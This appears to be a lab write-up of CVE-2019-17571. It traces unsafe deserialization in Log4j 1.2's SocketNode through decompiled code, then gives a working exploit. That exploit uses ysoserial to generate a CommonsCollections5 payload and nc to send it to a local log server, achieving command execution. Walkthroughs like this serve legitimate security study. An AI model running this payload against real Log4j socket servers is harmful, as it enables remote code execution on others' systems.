 # CVE-2019-17571

## Setup

* JankenTestLogServer.jar - Apache Log4j 1.2.X server ( [JankenTestLogServer.jar](/website/assets/files/JankenTestLogServer.jar) )
* [java jdk1.7.0_80](https://files-cdn.liferay.com/mirrors/download.oracle.com/otn-pub/java/jdk/7u80-b15/jdk-7u80-linux-x64.tar.gz)
* [jadx: Java decompiler](https://github.com/skylot/jadx) 
* config.properties - config file with following content

```
log4j.rootLogger=DEBUG, consoleAppender, fileAppender

log4j.appender.consoleAppender=org.apache.log4j.ConsoleAppender
log4j.appender.consoleAppender.layout=org.apache.log4j.PatternLayout
log4j.appender.consoleAppender.layout.ConversionPattern=[%t] %-5p %c %x - %m%n

log4j.appender.fileAppender=org.apache.log4j.RollingFileAppender
log4j.appender.fileAppender.layout=org.apache.log4j.PatternLayout
log4j.appender.fileAppender.layout.ConversionPattern=[%t] %-5p %c %x - %m%n
log4j.appender.fileAppender.File=demoApplication.log
```


> Running the log4j server. We run it on port `5111` (first argument) with `config.properties` as config file(2nd argument)
```bash

$ java -jar JankenTestLogServer.jar 5111 config.properties # this will run a server on port 5111 listening for socket connection
```

## Finding the bug

Open `JankenTestLogServer.jar` with `jadx` to view the source code. 

[cve-2019-17571-1](/website/assets/images/cve-2019-17571-1.png)

```java
try {
    logger.info("Listening on port " + port);
    ServerSocket serverSocket = new ServerSocket(port);
    while (true) {
        logger.info("Waiting to accept a new client.");
        Socket socket = serverSocket.accept();
        logger.info("Connected to client at " + socket.getInetAddress());
        logger.info("Starting new socket node.");
        new Thread(new SocketNode(socket, LogManager.getLoggerRepository()), "JankenTestLogServerApplication-" + port).start();
    }
} catch (Exception e) {
    e.printStackTrace();
}
```

The code starts Listening on port provided(5111 in our case) and whenever there is a new connection a new Thread is spawn to fulfil the socket request. The following code is responsible for that:

```java

new Thread(new SocketNode(socket, LogManager.getLoggerRepository()), "JankenTestLogServerApplication-" + port).start();

```

So lets inspect `SocketNode` function. Its imported from `import org.apache.log4j.net.SocketNode;`. Lets open `SocketNode.java`


[cve-2019-17571-2](/website/assets/images/cve-2019-17571-2.png)

```java

 public SocketNode(Socket socket2, LoggerRepository hierarchy2) {
    this.socket = socket2;
    this.hierarchy = hierarchy2;
    try {
        this.ois = new ObjectInputStream(new BufferedInputStream(socket2.getInputStream()));
    } catch (InterruptedIOException e) {
        Thread.currentThread().interrupt();
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e);
    } catch (IOException e2) {
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e2);
    } catch (RuntimeException e3) {
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e3);
    }
}	
```

So the Input from socket stream is read directly into `ObjectInputStream` and this is where Deserialization occurs. So we just need to send a serialized rce object and this will get us rce.


## Exploit

```
$ tar -xf jdk-7u80-linux-x64.tar.gz
$ ./jdk-7u80-linux-x64/bin/java -jar ysoserial.jar CommonsCollections5 "curl http://localhost:1111/" > haxtest.bin
$ cat haxtest.bin | nc localhost 5111
```

[cve-2019-17571-rce](/website/assets/images/cve-2019-17571-rce.png)


Enjoy the rce



